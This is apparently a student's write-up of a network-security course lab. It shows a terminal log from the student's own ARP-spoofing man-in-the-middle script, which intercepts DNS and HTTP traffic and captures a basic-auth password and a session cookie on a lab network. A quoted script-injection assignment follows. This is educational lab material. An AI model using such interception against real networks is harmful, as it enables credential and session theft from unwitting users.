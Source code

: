 Conceptually, this is not difficult. The challenge lies in implementation. The best I can do is provide is a log from one of my runs, otherwise just look at my code:

```
root@attacker:~# python3 shared-with-host/abadia2/NetSec/cp2.1.passive.py -i eth0 --clientIP 10.4.22.9 --dnsIP 10.4.22.80 --httpIP 10.4.22.218 --verbosity 1
#       spoofing 10.4.22.9's ARP table: setting 10.4.22.80 to 02:42:ac:55:f4:3d
#       spoofing 10.4.22.218's ARP table: setting 10.4.22.9 to 02:42:ac:55:f4:3d
#       spoofing 10.4.22.9's ARP table: setting 10.4.22.218 to 02:42:ac:55:f4:3d
#       spoofing 10.4.22.80's ARP table: setting 10.4.22.9 to 02:42:ac:55:f4:3d
#       spoofing 10.4.22.9's ARP table: setting 10.4.22.80 to 02:42:ac:55:f4:3d
#       spoofing 10.4.22.218's ARP table: setting 10.4.22.9 to 02:42:ac:55:f4:3d
#       spoofing 10.4.22.9's ARP table: setting 10.4.22.218 to 02:42:ac:55:f4:3d
#       spoofing 10.4.22.80's ARP table: setting 10.4.22.9 to 02:42:ac:55:f4:3d
#       10.4.22.9, sent:Ether / IP / UDP / DNS Qry "b'www.bankofbailey.com.'" 
#       10.4.22.80, sent:Ether / IP / UDP / DNS Ans "10.4.22.218" 
*hostname:www.bankofbailey.com.
*hostaddr:10.4.22.218
#       10.4.22.9, sent:Ether / IP / TCP 10.4.22.9:37142 > 10.4.22.218:http S
#       10.4.22.218, sent:Ether / IP / TCP 10.4.22.218:http > 10.4.22.9:37142 SA
#       10.4.22.9, sent:Ether / IP / TCP 10.4.22.9:37142 > 10.4.22.218:http A
#       10.4.22.9, sent:Ether / IP / TCP 10.4.22.9:37142 > 10.4.22.218:http PA / Raw
*basicauth:hunter2
#       10.4.22.218, sent:Ether / IP / TCP 10.4.22.218:http > 10.4.22.9:37142 A
#       10.4.22.218, sent:Ether / IP / TCP 10.4.22.218:http > 10.4.22.9:37142 PA / Raw
*cookie:35YATR8R8SW8PCIA
#       10.4.22.9, sent:Ether / IP / TCP 10.4.22.9:37142 > 10.4.22.218:http A
#       10.4.22.9, sent:Ether / IP / TCP 10.4.22.9:37142 > 10.4.22.218:http FA
#       10.4.22.218, sent:Ether / IP / TCP 10.4.22.218:http > 10.4.22.9:37142 FA
#       10.4.22.9, sent:Ether / IP / TCP 10.4.22.9:37142 > 10.4.22.218:http A
^C#     restoring ARP table for 10.4.22.218
#       restoring ARP table for 10.4.22.80
#       restoring ARP table for 10.4.22.9
#       restoring ARP table for 10.4.22.9
root@attacker:~# ^C
root@attacker:~# ^C
root@attacker:~# 
```
### 5.2.1.2  Script Injection

> For this problem, you will use your man-in-the-middle capability to rewrite HTTP request responses sent from the Web server to the client to insert JavaScript into the HTML file served to the client. We have provided the following test HTML files and test cases for you to consider, and we recommend completing them in the order presented:
>
> - http://www.bankofbailey.com/index.html—basic single-packet HTTP response
> - http://www.bankofbailey.com/long.html—long multiple-packet HTTP response
> - curl <url> <same-url>—multiple HTTP request/response on a single TCP connection
> - http://www.bankofbailey.com/hard.html—script injection beyond packet boundary

Conceptually, this attack is simple. The challenge, once again, is implementation.

**Key Concept**: Understand how the sequence numbers and acknowledgements function when malicious HTML is injected into the server's response:
